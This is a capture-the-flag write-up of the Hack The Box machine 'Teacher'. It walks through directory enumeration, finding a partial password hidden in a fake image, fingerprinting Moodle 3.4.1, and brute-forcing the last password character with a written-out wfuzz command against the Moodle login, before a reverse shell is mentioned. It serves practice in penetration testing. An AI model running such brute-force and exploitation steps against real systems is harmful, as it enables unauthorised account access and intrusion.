








# 10 - HTTP

# index.html



The text on the bottom left right is in Latin. This usually means that the website is custom made not a CMS. As always we will  start with default locations like *robots.txt* and *admin/* and after that return to the source while gobuster is going in the background.

# gallery.html



images/5.png is interesting because it is writing *That's an F to the console*. That's unusual. Let's see what the image looks like.



An image that can't be displayed by firefox? That is peculiar. Maybe it is corrupted but we must not rely on the extension.

# Hint
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ wget http://10.10.10.153/images/5.png
--2021-08-28 15:58:45--  http://10.10.10.153/images/5.png
Connecting to 10.10.10.153:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 200 [image/png]
Saving to: ‘5.png’

5.png                                           100%[=====================================================================================================>]     200  --.-KB/s    in 0s      

2021-08-28 15:58:45 (74.2 MB/s) - ‘5.png’ saved [200/200]

┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ file 5.png 
5.png: ASCII text
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ cat 5.png 
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

The file appears as a message to **Servicedesk**.  Morever, it contains a password but we have to guess the last character. On the other hand, we don't know what we can do with the credentials. We left gobuster running in the background. Let's see what gobuster found.


# Gobuster
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ cat gobuster/initial-x.log   |grep -v 403
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/index.html           (Status: 200) [Size: 8028]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/gallery.html         (Status: 200) [Size: 8254]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/.                    (Status: 200) [Size: 8028]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
```

Moodle is another open source software. It is a learning management system written in php. I really like open source software because there are numerous ways to enumerate them.


# Moodle



# Searchsploit


There is a ton of exploits in exploitdb's database. Moodle 3.4.1 is vulnerable to remote code execution but we need to make sure our moodle matches the version on the exploit, not that we have to, but it's always a good practice. We can do manual version enumeration by downloading the source code and finding locations that reveal version information or we can use an automated tool.

# Version check
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/]
└──╼ wget https://github.com/moodle/moodle/archive/refs/tags/v3.11.2.tar.gz
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/]
└──╼ tar xvf v3.11.2.tar.gz
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/]
└──╼ cd moodle-3.11.2
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodle/moodle-3.11.2]
└──╼ $ grep -ri  "3\.11\.2"  
lib/upgrade.txt:=== 3.11.2 ===
message/upgrade.txt:=== 3.11.2 ===
version.php:$release  = '3.11.2 (Build: 20210729)';// Human-friendly version name
```

The latest version of moodle mentions the version in 2 text files. 

* lib/upgrade.txt
* message/upgrade.txt

I think *lib* is a more reliable location because usually lib contains function definitions in most software.

# V3.4
  


# Automated enumeration
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher/moodlescan]
└──╼ $ python3 ./moodlescan.py -u http://10.10.10.153/moodle/
                                                                                                           
Version 0.8 - May/2021
By Victor Herrera - supported by www.incode.cl
Getting server information http://10.10.10.153/moodle/ ...

server          : Apache/2.4.25 (Debian)
x-frame-options : sameorigin
last-modified   : Sat, 28 Aug 2021 12:47:37 GMT

Getting moodle version...
Version found via /composer.lock : Moodle v3.4.1
Searching vulnerabilities...
Vulnerabilities found: 0

Scan completed.
```


moodlescan.py is more precise on version. this is good for us because we now know that the exploit, we have seen earlier, is going to work on this box. However, there is still a small problem, we still don't know the exact password. The last character is still missing.


# The last character
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/teacher]
└──╼ $ wfuzz --hh 440 -c -z file,/opt/SecLists/Fuzzing/alphanum-case-extra.txt  -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' 'http://10.10.10.153/moodle/login/index.php' 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 95

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000003:   303        6 L      34 W       454 Ch      "#"                                                                                                                          

Total time: 0
Processed Requests: 95
Filtered Requests: 94
Requests/sec.: 0
```

Generally, a password can contain only ascii characters, symbols, or digits. Luckily, SecList has a wordlist for all the potential characters in a password. I like to use open source wfuzz instead of its paid counterparts for bruteforcing.

Finally, we have the final version of the password. I think the username is Giovanni because  the message was sent from Giovanni  and Giovanni appears as a teacher on moodle.

# Exploit



After a few seconds a reverse shell connects to us.

# Shell

